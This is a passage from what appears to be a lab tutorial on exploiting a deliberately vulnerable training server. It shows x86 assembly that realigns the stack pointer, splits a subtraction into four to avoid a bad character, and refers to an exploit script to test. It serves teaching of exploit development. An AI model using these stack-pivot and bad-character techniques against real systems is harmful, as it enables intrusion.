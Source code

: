 	2. We will use the machine code that results from the following x86 assembly instructions. We can generate them in Immunity Debugger as we have done previously, or with the `/usr/share/metasploit-framework/tools/exploit/nasm_shell.rb` program on the Kali Linux machine.
		```
		PUSH ESP  		   ; Push the ESP register's value onto the stack 
		POP EAX   		   ; Pop the ESP register's value as it is at the top of the stack into EAX
		SUB AX,0x0DA8      ; Subtract from the lower 16-bits of the ESP (Stored in EAX) the hex value 0x0DA5
		PUSH EAX           ; Push the EAX register containing the adjusted ESP onto the stack
		POP ESP            ; Pop the adjusted ESP value into the ESP register
		``` 

		<img src="Images/I49.png" width=600>

		* Notice that  in the subtraction instruction `\x66\x2d\xa8\x0d` we have an invalid character `a8`! This means we need to modify the program to preform two or more subtractions! Since we are not too concerned with the space this takes, I modified the shellcode to preform 4 subtractions.
		```
		PUSH ESP  		   ; Push the ESP register's value onto the stack 
		POP EAX   		   ; Pop the ESP register's value as it is at the top of the stack into EAX
		SUB AX,0x0269      ; Subtract from the lower 16-bits of the ESP (Stored in EAX) the hex value 0x0269
		SUB AX,0x0269      ; Subtract from the lower 16-bits of the ESP (Stored in EAX) the hex value 0x0269
		SUB AX,0x0269      ; Subtract from the lower 16-bits of the ESP (Stored in EAX) the hex value 0x0269
		SUB AX,0x0269      ; Subtract from the lower 16-bits of the ESP (Stored in EAX) the hex value 0x0269
		PUSH EAX           ; Push the EAX register containing the adjusted ESP onto the stack
		POP ESP            ; Pop the adjusted ESP value into the ESP register
		``` 
	3. Edit your exploit to reflect [exploit12a-MULT.py](./SourceCode/exploit12a-MULT.py), and test to insure it works!
 
		https://github.com/DaintyJet/VChat_LTER/assets/60448620/507e8fe0-f90a-4ae2-80cb-7fe00fc86efe

		1. Click on the black button highlighted below, enter in the address we decided in the previous step
